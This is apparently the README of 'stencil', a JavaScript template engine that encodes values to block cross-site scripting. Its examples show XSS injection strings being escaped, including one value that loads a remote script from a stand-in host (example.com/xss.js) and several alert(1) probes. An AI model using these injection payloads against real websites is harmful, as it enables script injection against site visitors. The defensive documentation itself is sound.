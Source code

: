 # stencil

A lightweight template engine with comprehensive encoding methods for mitigating
the risk of cross-site scripting (XSS) attacks.

## Installation

```
npm install https://github.com/mikol/stencil
```

## Usage

```
var template = '<script>alert("Hello, !{name}!")</script>';
var locals = {
  name: '");' +
    'var $dq=document;' +
    'var $xp=$dq.createElement("script");' +
    '$xp.setAttribute("src", "https://example.com/xss.js");' +
    '$dq.getElementsByTagName("head")[0].appendChild($xp);'
};

stencil(template, locals);

// <script>alert("Hello, \x22\x29\x3bvar\x20\x24dq\x3ddocument\x3bvar\x20\
// \x24xp\x3d\x24dq\x2ecreateElement\x28\x22script\x22\x29\x3b\x24xp\x2e\
// setAttribute\x28\x22src\x22\x2c\x20\x22https\x3a\x2f\x2fexample\x2ecom\x2f\
// xss\x2ejs\x22\x29\x3b\x24dq\x2egetElementsByTagName\x28\x22 head\x22\x29\
// \x5b0\x5d\x2eappendChild\x28\x24xp\x29\x3b!");</script>
```

## Encoding Delimiters

### Echo (`${...}`)

```
stencil('Hello, ${name}!', {name: 'Ŵøяłð"&\'/<>`'});
```

```
Hello, Ŵøяłð"&'/<>`!
```

### Base64 (`+{...}`)

```
stencil('Hello, +{name}!', {name: 'Ŵ🜘я🜯🜱'});
```

```
Hello, xbTwn5yY0Y/wn5yv8J+csQ==!
```

### Base64ni (`-{...}`)

```
stencil('Hello, -{name}!', {name: 'Ŵ🜘я🜯🜱'});
```

```
Hello, xbTwn5yY0Y_wn5yv8J-csQ!
```

### CSS Properties (`:{...}`)

```
stencil('<style>background-url: :{property};</style>', {
  property: 'javascript:alert(1)'
});
```

```
<style>background-url: javascript\00003aalert\0000281\000029;</style>
```

### HTML Attributes (`={...}`)

```
stencil('<span class="={cname}">Hello, World!</span>', {
  cname: '"\'%*+,-/<;>^| = risqué busịness'
});
```

```
<span class="&#34;&#39;&#37;&#42;&#43;&#44;&#45;&#47;&lt;&#59;&gt;&#94;&#124;&#32;&#61;&#32;risqu&#233;&#32;busịness">Hello, World!</span>
```

### HTML Elements (`>{...}`)

```
stencil('<span>Hello, >{name}!</span>', {
  name: '<script>alert(1);</script>'
});
```

```
<span>Hello, &lt;script&gt;alert(1);&lt;&#47;script&gt;!</span>
```

### JavaScript (`!{...}`)

```
stencil('<script>alert("Hello, !{name}!")</script>', {
  name: '");alert(1);"'
});
```

```
<script>alert("Hello, \x22\x29\x3balert\x281\x29\x3b\x22!")</script>
```

### URI Components (`%{...}`)

```
stencil('<a href="/help/kbid=%{kbid}">...</a>', {
  kbid: '" onclick="alert(1)'
});
```

```
<a href="/help/kbid=%22%20onclick%3d%22alert%281%29">...</a>
```
